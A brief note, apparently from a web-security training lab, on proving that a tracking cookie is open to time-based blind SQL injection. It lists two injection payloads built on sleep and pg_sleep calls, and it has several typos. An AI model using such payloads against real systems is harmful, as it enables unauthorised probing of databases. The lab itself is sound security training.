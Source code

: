 Lab #31 - Blind SL Injection with time delays

Vulnerablw parameter - tracking cookie

End Goal: 
- to prove that the field is vulnerable to blind SQLi(time based)

Analysis:

' || (SELECT sleep(10)) -x
' || (SELECT pg_sleep(10))--